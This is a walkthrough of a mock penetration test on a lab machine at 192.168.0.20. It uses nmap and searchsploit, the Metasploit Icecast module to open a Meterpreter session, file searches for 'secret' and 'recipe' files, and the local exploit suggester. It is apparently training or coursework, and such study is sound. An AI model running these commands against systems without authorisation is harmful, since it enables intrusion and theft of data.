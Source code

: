 # Penetration Testing Engagement Report

This is a write-up for a 'faux' Penetration Testing Engagement. This document provides a walkthrough of assessing a vulnerable server and A report on the technical, business risk, and mitigation strategies. 

## Background

This document contains the following details:
- Scope of Engagement
- Engagement Walkthrough
- Penetration Testing Engagement Report

## Overview

The context of the engagement was assessing the vulnerability of a CEO's computer. Importantly, this was to determine the veracity of the system and to ensure data privacy/system integrity are held to the highest standards. It was crucial to ensure that all vulnerability testing was done strictly in a way that did no impact upon the acitivity and use of the system.


## Engagement Walkthrough

This section  outlines the steps taken to assess the vulnerability of the CEO's computer:

1. Running a service and version scan using `nmap` allowed the ability to determine the services that are running on the target.

>> Command used: `nmap -sS -sV -O 192.168.0.20`

![Images/Picture1.png](Images/Picture1.png)

2. From the previous step, we are able to see that the `Icecast` service is running. Due to this, we can search for any Icecast exploits:

>> Run the SearchSploit commands for Icecast exploits. `searchsploit -t icecast windows`

![Images/Picture2.png](Images/Picture2.png)

3. Now with understanding what vectors are available, we can use Metasploit to move forward.

>> Run the command `msfconsole`

4. Search for the Icecast module and load it for use.

>> Run the command to search for the Icecast module `search icecast`

![Images/Picture3.png](Images/Picture3.png)

>> Run the command to use the Icecast module `use 0` abd set the `RHOST` to the target machine `set RHOSTS 192.168.0.20`

![Images/Picture4.png](Images/Picture4.png)

>> run the Icecast exploit `run`

5. Now that the Meterpreter session is open. We can search the system and find sensitive data.

>> run the command `search -f *secret*` or make use of directory traversal

![Images/Picture5.png](Images/Picture5.png)

>> additionally, run the command to search for `recipe.txt` by running `search -f *recipe*`

![Images/Picture6.png](Images/Picture6.png)


6. Furthermore, we can make use of Meterpreter's local exploit suggester to find additional possible exploits.

>> `run post/multi/recon/local_exploit_suggester`

![Images/Picture7.png](Images/Picture7.png)



## Summary of Penetration Testing Engagement Report

Following the vulnerability testing, a [Report](Resources/Pentest-Report.docx) was crafted to outline and suggest recommendation(s) and mitigation strategies against the primary concerns. 